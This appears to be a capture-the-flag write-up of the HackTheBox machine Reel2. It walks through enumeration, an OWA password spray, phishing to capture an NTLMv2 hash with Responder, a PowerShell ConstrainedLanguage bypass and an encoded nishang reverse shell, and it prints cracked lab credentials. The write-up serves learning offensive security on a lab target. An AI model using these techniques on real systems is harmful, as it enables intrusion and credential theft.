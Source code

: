 Hello friends!
Today I'm going to take you around a special machine on hackthebox platform: Reel2
<img src="/src/reel2.png">

It was a hard machine as the statistiques show!
First we start as usual with running <emb>nmap</emb> to see open ports and services.
<span style="color:blue"><emb>nmap -sV -T4 -oA nmap 10.10.10.210</emb></span>
The result shows a bunch of ports: 80, 443, 8080, 600x.


<img src="/src/nmap1.png">

We will start by ports 80 and 443, which only show a default windows IIS server default page. In this case we will launch a directory/files brute force to see if can find some juicy entries.

<span style="color:blue"><emb>dirsearch.py -e php,html -u http://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


<span style="color:blue"><emb>dirsearch.py -e php,html -u https://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


The results show the existing of exchange server and the web posrtal is accessible through https://10.10.10.210/owa (we can guess from the fisrt look that the exchange version is 2010)

Next step is to build username and password lists to brute force the OWA access. At this point we can use large wordlists but it may take an eternity to finish the attack.

The next open port is 8080 which exposes a social media website called "wallstant". We create a new account and start to look for some vulnerablities on that site. As by now, we will use this site to generate wordlists for username and password.


The following command will generate a worldlist using CEWL program (-m command is used for minimum word length, -d command used depth to spider):


<span style="color:blue"><emb>cewl -w passlist.txt -m 2 -d 4 -H Cookie:PHPSESSID=q7lmf0h6m81u4propu0r1s4reh --proxy_host 127.0.0.1 --proxy_port 8080 http://10.10.10.210:8080/</emb></span>


To generate a wordlist for usernames we make a curl to search endpoint which contains names of blog users.


<span style="color:blue"><emb>curl -v --cookie "PHPSESSID=q7lmf0h6m81u4propu0r1s4reh" http://10.10.10.210:8080/search > site.txt</emb></span>


The following will create a list from the output of curl command:


<span style="color:blue"><emb>html2dic site.txt >> list.txt</emb></span>

You can also use some burp extensions to generate those wordlists: <a href="https://github.com/PortSwigger/wordlist-extractor">exp1</a> or <a href="https://github.com/tinmyowin7/Wordlist-Generator">exp2</a>


After generating those wordlists we have many tools to perform a password spray attack: Take every username in the user's list and test it against every password in password's list.
Examples of tools: <a href="https://github.com/sensepost/ruler">Ruler</a>, <a href="https://github.com/byt3bl33d3r/SprayingToolkit">SprayToolkit</a>


<span style="color:blue"><emb>./atomizer.py owa http://reel2:443/owa passwords.txt users.txt --threads 20 --debug --interval 0:0:2</emb></span>


After some time we have a valid credentials: <span style="color:red">s.svensson:Summer2020</span>


We login with s.svensson account, and we can see that we have a list of users in the owa adress book, an evident tought that come to our mind is to send a phishing email to all users, with an email body set to out attacker machine. 


We set our responder as follow: <span style="color:blue"><emb>responder -I tun0 -v</emb></span>


A few seconds later we got NTLMv2 hash for a k.svensson, and we launch hashcat to crack that hash: <span style="color:red">k.svensson:kittycat1</span>


At this stage we will try to use this crendentials to execute powershell remoting, we had a problem of ConstrainedLanguage mode in that powershell session. To bypass this restriction we can create a function and call it, or we use the & sign to execute commands. So the following will execute `whoami` command: 


```
Invoke-Command -ComputerName 10.10.10.210 -Credential 'HTB.local\k.svensson' -Authentication Negotiate -ScriptBlock {&{whoami}}

PowerShell credential request
Enter your credentials.                                                                                                                                                          
Password for user HTB.local\k.svensson: *********

htb\k.svensson
```

Next we want to get a reverse shell on the box.
We will use nishang and base64 encode it:


<span style="color:blue"><emb>cat Invoke-PowershellTcpOnLine.ps1 | iconv -t utf16le | base64 -w 0</emb></span>


And then we send it to get the reverse shell with `-enc` to decrypt it:
<img src="/src/rev1.png">

We can get the user flag.

Next step is to have administrator access to the box or at least find out a way to read the root.txt flag!

In the desktop of k.svensson we see a Sticky Note link wich can be a good start to find some interesting stuff.

We can search for specific files or some content that have specific terms like "password", "psrc", "pssc" or "jea".

The following command helps us to look for files that end with `.log` extension: 

<span style="color:blue"><emb>get-childitem -path C:\ -File -Recurse -Include *.log -ErrorAction SilentlyContinue -Force</emb></span>

The search shows us a file that contains credentials for a new account: <span style="color:red">jea_test_account:Ab!Q@vcg^%@#1</span>

We spent some time reading about JEA (Just Enough Administration), which is a security technology that enables delegated administration for anything managed by PowerShell. Reading the configuration files (C:\Users\k.svensson\Documents\jea_test_account.psrc and C:\Users\k.svensson\Documents\jea_test_account.pssc), we discover that jea_test_account is the only user who can execute a commandlet named `Check-File` which gets the content of a file only if it is inside `D:/` or `C:/ProgramData`
